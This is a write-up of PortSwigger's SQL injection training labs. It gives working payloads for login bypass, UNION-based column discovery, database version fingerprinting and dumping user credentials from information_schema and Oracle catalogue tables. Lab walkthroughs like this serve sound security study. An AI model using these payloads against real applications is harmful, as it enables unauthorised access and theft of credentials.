 ```yaml
---
title: Portswigger Lab SQLi (UNION)
date: 2023-01-28 09:45:47 +07:00
modified: 2023-01-28 09:45:47 +07:00
tags: [Portswigger, SQLi , Writeup]
description: Write Up for Portswigger Lab SQLi
---
```



![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/logo.png)

Lab Name → **SQL Injection (UNION)**

Lab Link → [https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

Description → First 10 Labs of SQLi Lab based on UNION attack.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

By making the statement true we can get all the categories.

Payload → `'OR 1=1-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/1.png)


## SQL injection vulnerability allowing login bypass

In the login page after typing the username we can just comment the rest of the statement. Which will make the password parameter a comment.

Payload → `administrator'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/2.png)


## SQL injection UNION attack, determining the number of columns returned by the query

First we have to find how many columns are there. We can use the [ORDER BY]() keyword. Lets increase the payload number by 1 until we get an error.

Payload → `'ORDER BY 3--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/3.png)

When we reach 4 we get a error.

Payload → `'ORDER BY 4--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/4.png)

Now we know that there are 3 columns. Lets use UNION to get all the columns.

Payload → `' UNION SELECT NULL,NULL,NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/5.png)


## SQL injection UNION attack, finding a column containing text

Now that we know which table has 3 columns, we have to find the column that is injectable. In this case, 2nd column was injectable.

Payload → `' UNION SELECT NULL,'ap8kCb',NULL--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/6.png)


## SQL injection UNION attack, retrieving data from other tables

We go back to find the number of the column. In this case, we get an error at 3. So, the number of the column is 2.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/7.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/8.png)

Next, we get the username and password from the user's table using UNION.

Payload → `' UNION SELECT username,password FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/9.png)

We get the admin name and password. After we log in, the lab is solved.

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/10.png)


## SQL injection UNION attack, retrieving multiple values in a single column

We can use the CONCAT keyword to get information in one column.

Payload → `' UNION SELECT NULL,CONCAT(username,' ',password) FROM users--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/11.png)



## SQL injection attack, querying the database type and version on Oracle

For Oracle database we can get [banner]() from [v$version]() table to get version information.

Payload → `' UNION SELECT banner,NULL FROM v$version--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/12.png)



## SQL injection attack, querying the database type and version on MySQL and Microsoft

To get MySQL or Microsoft database version we can use [@@version]() keyword.

Payload → `' UNION SELECT @@version,NULL-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/13.png)

## SQL injection attack, listing the database contents on non-Oracle databases

First we have to find the table_name from [information_schema.tables]()


Payload → `' UNION SELECT table_name,NULL FROM information_schema.tables--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/14.png)

We found the table of the user. Next, we are going to get the column names from the table.

Payload → `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_neqdue'--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/15.png)

After getting the column names we can print out the data and after logging in with the administrator we solve the lab.

Payload → `' UNION SELECT username_skjbtp,password_ajvmno FROM users_neqdue--`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/16.png)


## SQL injection attack, listing the database contents on Oracle

Lets get the table name first.

Payload → `' UNION SELECT table_name,NULL FROM all_tables-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/17.png)

Now that we have the table name lets get the column names from that table.

Payload → `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ETYIRN'-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/18.png)

Now lets get Admin username and password from the columns.

Payload → `' UNION SELECT USERNAME_EPLQOW,PASSWORD_ZXLHQB FROM USERS_ETYIRN-- -`

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/19.png)

![](https://photos.squarezero.dev/file/abir-images/Portswigger/SQLiUnion/20.png)


